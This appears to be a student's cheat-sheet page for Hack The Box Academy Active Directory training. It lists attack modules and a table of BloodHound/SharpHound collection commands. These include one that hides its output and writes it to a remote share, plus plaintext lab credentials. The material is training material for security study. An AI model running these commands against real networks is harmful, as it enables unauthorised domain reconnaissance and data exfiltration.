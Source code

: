 
|Name|Progress|Difficulty||   |
|---|---|---|---|---|
|[Active Directory Enumeration & Attacks](https://academy.hackthebox.com/module/details/143)||Medium|[View](https://academy.hackthebox.com/module/143)|
|[Active Directory LDAP](https://academy.hackthebox.com/module/details/22)||Medium|[Start](https://academy.hackthebox.com/module/22)|
|[Active Directory PowerView](https://academy.hackthebox.com/module/details/68)||Medium|Start|
|[Active Directory BloodHound](https://academy.hackthebox.com/module/details/69)||Medium|[Continue](https://academy.hackthebox.com/module/69)|
|[Windows Lateral Movement](https://academy.hackthebox.com/module/details/263)||Medium|Start|
|[Using CrackMapExec](https://academy.hackthebox.com/module/details/84)||Medium|Start|
|[Kerberos Attacks](https://academy.hackthebox.com/module/details/25)||Hard|Start|
|[DACL Attacks I](https://academy.hackthebox.com/module/details/219)||Hard|Start|
|[DACL Attacks II](https://academy.hackthebox.com/module/details/255)||Hard|Start|
|[NTLM Relay Attacks](https://academy.hackthebox.com/module/details/232)||Hard|Start|
|[ADCS Attacks](https://academy.hackthebox.com/module/details/236)||Hard|Start|
|[Active Directory Trust Attacks](https://academy.hackthebox.com/module/details/253)||Hard|Start|
|[Intro to C2 Operations with Sliver](https://academy.hackthebox.com/module/details/241)||Hard|Start|
|[Introduction to Windows Evasion Techniques](https://academy.hackthebox.com/module/details/254)||Hard|Start|
|[MSSQL, Exchange, and SCCM Attacks](https://academy.hackthebox.com/module/details/267)||Hard|Start|


# BloodHound

| Command                                                                                                                              | Description                                      |
| ------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------ |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                     | Run the SharpHound C# ingestor                   |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames`   | Randomize and hide SharpHound Output             |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                          | Run the SharpHound PowerShell ingestor           |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                    | Run bloodhound-python                            |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                          |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                                 |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`                         | Using BloodHound.py with Kerberos authentication |
| `runas /netonly /user:INLANEFREIGHT\htb-student cmd.exe`<br>`net view \\inlanefreight.htb\`<br>`SharpHound.exe -d inlanefreight.htb` | Running from Non-Domain-Joined Systems           |
